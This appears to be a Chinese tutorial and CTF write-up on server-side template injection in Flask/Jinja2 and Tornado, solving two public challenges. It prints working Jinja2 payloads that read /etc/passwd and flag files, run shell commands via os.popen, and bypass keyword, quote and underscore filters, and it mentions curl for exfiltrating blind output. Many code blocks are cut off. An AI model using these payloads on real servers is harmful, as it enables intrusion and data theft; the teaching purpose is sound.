







漏洞介绍
什么是SSTI？SSTI即Server Side Template Injection，服务器端模板注入。由于程序员代码编写不当，信任了用户的输入，将其作为模板内容的一部分，从而造成模板可控。通过模板，我们可以通过输入转换成特定的html文件，返回给浏览器，比如说Twig模板：
1 | $output = $twig->render( $_GET[‘custom_email’] , array(“first_name” => $user.first_name) ); |
SSTI主要影响的框架有 python框架：jinja2、Tornado 、Django，php框架：Smarty、Twig，java框架：Jade、Velocity
SSTI in flask
下面讲解一些关于flask的相关知识
路由
route装饰器的作用是将函数与url绑定起来，比如说有如下代码：
1 |
|
访问127.0.0.1:5000，会返回hello world
如果改一下，变成如下代码：
1 |
|
则访问127.0.0.1:5000/index，会返回hello world
当然也可以是动态的，或者可以使用int型，转换器有下面几种：
1 | int 接受整数 |
渲染方法
flask中的模板渲染方法有两个：
render_template
render_template_string
render_template()是用来渲染一个指定的文件的，使用如下：
1 | return render_template('index.html') |
render_template_string则是用来渲染一个字符串的，使用如下：
1 | str = 'aaa' |
模板渲染
1 | ├── app.py |
flask是使用Jinja2来作为渲染引擎的，根目录下的templates目录是用来存放html的，也就是模板文件，render_template函数渲染的就是templates目录下的模板文件。但是模板文件并不是单纯的html代码，而是夹杂着模板的语法，因为页面不可能都是一个样子的，有一些地方是会变化的。比如说显示用户名的地方，这个时候就需要使用模板支持的语法，来传参，比如：
index.html
1 | <body> |
app.py
1 |
|
name参数经过渲染，访问页面时会出现Hello,Glarcy！
攻击方法
获取python的基本类
1 | #python2.7 |
文件操作
1 | #找到file类 |
执行命令
1 | #os类，可以直接执行命令 |
Bypass
过滤关键字
1
{{session['__cla'+'ss__'].__base__.__base__.__base__['__subcla'+'sses__']()[163].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/flag').read()}}
过滤
[1
2
3
4
5#读文件：
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
#执行命令：
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()过滤引号
1
2
3
4
5
6
7
8
9
10#先获取chr函数，赋值给chr，后面拼接字符串就好了：
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
#借助request对象(推荐)：
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#执行命令：
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id过滤双下划线
__1
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
相当于盲命令执行，利用curl将执行结果带出来
如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来
1 | import requests |
动手实践
例题：TokyoWesterns CTF 4th 2018 shrine
环境搭建
https://github.com/CTFTraining/westerns_2018_shrine
由于我是在自己服务器上搭的，所以我修改了docker-compose.yml中的ports
1 | ports: |
进入目录启动
1 | docker-compose up -d |
访问（比如说127.0.0.1:5000）
1 | vps:your_port |
顺便提一句，这里的flag跟原题目的flag是不一样的，因为作了修改，如果你想更贴近题目你也可以在Dockerfile中修改
攻击
进去可以直接看到源代码
1 | import flask |
从源代码可以看出
- ()被过滤了，并且config、self被替换成了none
- 注入点为
/shrine/< path:shrine >，即xxx.xxx.xxx.xxx/shrine/{{}} - 初步探测，发现9被执行成功

虽然self、config无法使用，但是我们可以使用__init__来列出所有的原始属性，即
1 | {{app.__init__.__globals__.sys.modules.app.app.__dict__}} |

除此之外，我看到别的师傅使用了调用current_app的办法
1 | url_for |
SSTI in tornado
动手实践
例题：护网杯-easy_tornado
环境搭建
https://github.com/CTFTraining/huwangbei_2018_easy_tornado
vps上搭建，docker-compose.yml修改如下
1 | version: "2" |
进入目录启动
1 | docker-compose up -d |
访问（比如说127.0.0.1:5000）
1 | vps:your_port |
攻击
进去可以发现3个文件

进入welcome.txt看到
1 | /welcome.txt |
进入hints.txt看到
1 | /hints.txt |
即先将filename md5加密，再将cookie_secret和加密后的filename进行md5加密
进入flag.txt看到
1 | /flag.txt |
尝试访问/fllllllllllllag，发现错误

猜测msg处存在ssti，经过测试，确实存在


在tornado有个handler.settings对象，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，那么handler.settings就指向RequestHandler.application.settings了
使用handler.settings获得cookie_secret

构造filehash即可拿flag
防御
1 | @app.errorhandler(404) |
参考链接：